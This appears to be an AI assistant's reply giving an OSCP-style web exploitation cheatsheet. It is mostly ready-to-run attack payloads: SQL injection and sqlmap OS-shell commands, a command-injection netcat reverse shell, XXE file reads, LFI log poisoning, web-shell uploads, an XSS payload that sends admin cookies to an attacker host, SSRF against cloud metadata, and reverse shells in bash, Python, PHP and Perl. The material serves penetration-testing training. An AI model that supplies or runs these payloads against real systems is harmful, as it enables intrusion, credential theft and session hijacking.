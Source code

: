 Of course. Here is a comprehensive guide and cheatsheet for web application exploitation, tailored for an OSCP-level approach, provided as a single Markdown code block.
Markdown

# OSCP Web Exploitation Guide & Cheatsheet 🕷️

This guide provides a structured methodology and quick-reference commands for common web application vulnerabilities encountered in OSCP-like environments.**Disclaimer:** This information is for educational and ethical security research purposes only. Only test these techniques on systems you own or have explicit, written permission to assess.

---## 1. Foundation: Reconnaissance & Enumeration

Never underestimate this phase. Thorough enumeration is often the key to finding a foothold.### **A. Initial Scans (Nmap)**

Identify running web servers and their versions.```bash
# Fast scan for top ports, service version detection, default scripts
nmap -sC -sV -p- -T4 --min-rate=1000 -oN nmap_initial.txt <TARGET_IP>

# Scan for all TCP ports (slower)
nmap -p- -sV -oN nmap_full_tcp.txt <TARGET_IP>
B. Directory & File Brute-Forcing (Gobuster / Feroxbuster)
Find hidden pages, directories, and endpoints.
Bash

# Gobuster - Common directories
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,bak -t 50# Feroxbuster - Recursive search with more features
feroxbuster -u http://<TARGET_IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,js,json
C. Subdomain Enumeration (ffuf)
Discover virtual hosts and subdomains.
Bash

# Brute-force subdomains using a wordlist
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://<TARGET_IP> -H "Host: FUZZ.target.com" -fs <SIZE_OF_DEFAULT_RESPONSE>
D. Technology Stack Identification
Use browser plugins like Wappalyzer or command-line tools like whatweb.
Bash

whatweb http://<TARGET_IP>
2. Common Injection Vulnerabilities
A. SQL Injection (SQLi)
Identification:

Look for parameters in the URL (?id=1) or POST data.
Test with ', ", sleep(), and boolean conditions. id=1' , id=1", id=1 AND 1=1, id=1 AND 1=2.
Check for differences in the page response.
Manual Exploitation (Union-based):

Find number of columns: ' ORDER BY 1--, ' ORDER BY 2--, etc., until an error occurs.
Find usable columns: ' UNION SELECT 1,2,3,NULL-- (adjust numbers to match column count).
Extract data:
' UNION SELECT 1,database(),user(),4--
' UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT 1,group_concat(username,':',password),3,4 FROM users--
Automated Exploitation (sqlmap):
Bash

# Basic GET request
sqlmap -u "http://<TARGET_IP>/vuln.php?id=1" --dbs# POST request
sqlmap -u "http://<TARGET_IP>/login" --data="user=admin&pass=123" --dbs# Get tables from a database
sqlmap -u "http://<TARGET_IP>/vuln.php?id=1" -D <DB_NAME> --tables# Dump a table
sqlmap -u "http://<TARGET_IP>/vuln.php?id=1" -D <DB_NAME> -T <TABLE_NAME> --dump# Get an OS shell
sqlmap -u "http://<TARGET_IP>/vuln.php?id=1" --os-shell
B. Command Injection
Identification:

Look for functionality that interacts with the underlying OS (e.g., ping tools, file converters, network lookups).
Inject command separators: ;, &&, |, ||.
Test with whoami, id, ls -la, ping -c 3 <ATTACKER_IP>.
Payloads:

8.8.8.8; whoami
8.8.8.8 && ls -la /
| nc <ATTACKER_IP> 4444 -e /bin/bash (for a reverse shell).
C. XML External Entity (XXE)
Identification:

Look for applications that parse XML input (e.g., file uploads that accept .xml, POST bodies with Content-Type: application/xml).
Payload to read /etc/passwd:
XML

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><user>
  <username>&xxe;</username>
  <password>password</password></user>
SSRF via XXE:
XML

<!DOCTYPE user [ <!ENTITY xxe SYSTEM "[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"> ]>
3. File & Path Manipulation
A. Local File Inclusion (LFI) / Directory Traversal
Identification:

Look for parameters that include filenames, like ?page=main.php or ?file=user_guide.pdf.
Payloads:

Traversal: ../../../../../../../../etc/passwd
Null Byte (for older PHP): ../../../../etc/passwd%00
PHP Wrappers:
php://filter/convert.base64-encode/resource=index.php (Read source code)
php://input (with POST data for RCE: <?php system($_GET['cmd']); ?>)
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+ (Base64 for <?php system($_GET['cmd']); ?>)
LFI to RCE (Log Poisoning):

Inject PHP code into a log file that you can access via LFI (e.g., Apache logs).
Make a request to the server with PHP code in the User-Agent string or URL. nc <TARGET_IP> 80 GET /<?php system($_GET['cmd']); ?> HTTP/1.1 Host: <TARGET_IP> User-Agent: <?php system($_GET['cmd']); ?>
Include the log file via LFI and pass your command. http://<TARGET_IP>/index.php?page=../../../../var/log/apache2/access.log&cmd=whoami
B. Remote File Inclusion (RFI)
Identification:

Similar to LFI, but the application includes a full URL, e.g., ?include=[http://example.com/widget.php](http://example.com/widget.php).
Exploitation:

Host a PHP reverse shell script on your attacker machine.
http://<TARGET_IP>/?page=http://<ATTACKER_IP>/shell.php
C. File Upload Vulnerabilities
Goal: Upload a web shell (.php, .jsp, .aspx) and execute it.
Bypass Techniques:

Change extension: shell.php -> shell.php5, shell.phtml
Add valid extension: shell.jpg.php (if it checks only the first extension).
Change Content-Type header: Set Content-Type: image/jpeg in Burp Suite for a PHP file.
Use magic bytes: Add GIF89a; to the very beginning of your PHP shell file.
Null byte injection: shell.php%00.jpg
4. Cross-Site Scripting (XSS)
While often low-impact in bug bounties, for OSCP, XSS is a great way to steal admin cookies.
Identification:

Input user-controllable data into any field (search bars, comments, profile info).
Test with simple payloads: <script>alert(1)</script>, "><img src=x onerror=alert(1)>
Exploitation (Cookie Stealing):

Start a listener on your attacker machine to catch the cookie.
Bash

nc -lvnp 80
Craft the payload.
JavaScript

<script>document.location='http://<ATTACKER_IP>/cookie_stealer.php?c=' + document.cookie;</script>
Inject the payload where an admin user will view it (e.g., a support ticket form).
When the admin views the page, their browser will execute the script, sending their session cookie to your listener.
Use the stolen cookie in your browser (e.g., with the "Cookie-Editor" extension) to hijack the admin's session.
5. Server-Side Request Forgery (SSRF)
Identification:

Functionality that fetches data from a URL provided by the user (e.g., image upload from URL, PDF generators).
Look for parameters like ?url=, ?uri=, ?path=.
Exploitation:

Internal Port Scanning:
http://<TARGET_IP>/vuln?url=[http://127.0.0.1:22](http://127.0.0.1:22)
http://<TARGET_IP>/vuln?url=[http://127.0.0.1:8080](http://127.0.0.1:8080)
(Observe response time differences or error messages).
Accessing Cloud Metadata:
[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/) (AWS)
[http://169.254.169.254/metadata/v1/](http://169.254.169.254/metadata/v1/) (Google Cloud)
Using different schemas: file:///etc/passwd, dict://, gopher://
6. Post-Exploitation & Shells
Getting a shell is the goal. Always have a listener ready.
Netcat Listener
Bash

nc -lvnp <PORT>
Reverse Shell Cheatsheet
Bash:
Bash

bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
Python:
Python

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'







PHP:
PHP

php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
A common web shell to upload:
PHP

<?php system($_GET['cmd']); ?>
Perl:
Perl

perl -e 'use Socket;$i="<ATTACKER_IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Stabilizing the Shell
Upgrade your dumb nc shell to a fully interactive TTY.

python -c 'import pty; pty.spawn("/bin/bash")' (or python3)
Ctrl+Z (to background the shell)
stty raw -echo; fg
reset
export SHELL=bash
export TERM=xterm-256color
Adjust terminal size: stty rows <num> cols <num>
Internal Enumeration (Post-Shell)
Once you have a shell, run enumeration scripts to find privesc vectors.

Host the script on your machine: python3 -m http.server 80
Download it on the target: wget http://<ATTACKER_IP>/linpeas.sh or curl http://<ATTACKER_IP>/linpeas.sh -o linpeas.sh
Make it executable and run: chmod +x linpeas.sh then ./linpeas.sh
